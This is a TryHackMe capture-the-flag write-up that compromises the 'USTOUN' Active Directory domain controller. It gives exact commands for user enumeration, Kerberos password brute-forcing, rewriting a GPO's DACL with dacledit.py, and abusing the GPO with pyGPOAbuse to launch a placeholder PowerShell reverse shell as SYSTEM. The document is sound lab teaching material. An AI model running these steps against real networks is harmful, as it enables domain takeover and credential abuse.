

# TryHackMe - USTOUN

I started with a port scan.


From the nmap output it is easy to see that this is a domain controller.
The first thing I did was to use the `--rid-brute` option of CrackMapExec to see if I could find out usernames.

Besides the standard Windows users, only one user named `SVC-Kerb` was of interest.


Since we only have one interesting user, I decided to bruteforce him using kerbrute.


And I got a result!

I tried to log in using `evil-winrm` but failed.

Unfortunately, there is no user added to the `Remote Management Users` group on the system, which is confirmed by the group enumeration of `CrackMapExec`.


Therefore, I first collected remote information about the AD environment using `bloodhound-python` in order to be able to display it graphically.

In Bloodhound the following edge was interesting:

__WriteDACL on GPO:__


Bloodhound is a really convenient tool as it also provides us with abuse information.


Okay, now to the exploitation steps.

### 1. Read DACL called by DN

```bash
python3 dacledit.py -action read -target-dn "CN={6AC1786C-016F-11D2-945F-00C04FB984F9},CN=POLICIES,CN=SYSTEM,DC=USTOUN,DC=LOCAL" -dc-ip <IP> ustoun.local/SVC-Kerb:<PASS>
```


### 2.  WriteDacl to this GPO, and grant SVC-Kerb the GenericAll privilege

```bash
python3 dacledit.py -action write -target-dn "CN={6AC1786C-016F-11D2-945F-00C04FB984F9},CN=POLICIES,CN=SYSTEM,DC=USTOUN,DC=LOCAL" -principal SVC-Kerb -rights FullControl -ace-type allowed -dc-ip <IP> ustoun.local/SVC-Kerb:<PASS>
```


### 3. Check again ACE


```bash
python3 dacledit.py -action read -target-dn "CN={6AC1786C-016F-11D2-945F-00C04FB984F9},CN=POLICIES,CN=SYSTEM,DC=USTOUN,DC=LOCAL" -dc-ip <IP> ustoun.local/SVC-Kerb:<PASS>
```


### 4. Exploit GPO

Since we now have full control over the GPO from which our domain controller is affected, we can take advantage of this.

We use the tool [pyGPOAbuse](https://github.com/Hackndo/pyGPOAbuse) which helps us to create a `Scheduled Task` which is then finally executed as `SYSTENM` on the computer.

By default `pyGPOAbuse` creates a user john on the target system which is then added to the administrator group.

With the flag `-Command` we can use a separate command for exploitation and I passed a Powershell Base64 encoded rev-shell code to the flag and got a reverse shell as `SYSTEM`.

```bash
python3 pygpoabuse.py -dc-ip <IP>> -gpo-id 6AC1786C-016F-11D2-945F-00C04FB984F9 ustoun.local/SVC-Kerb:<PASS>> -command <POWERSHELL REVERSE>
```


A little wait and I got my reverse shell and picked up the flags.



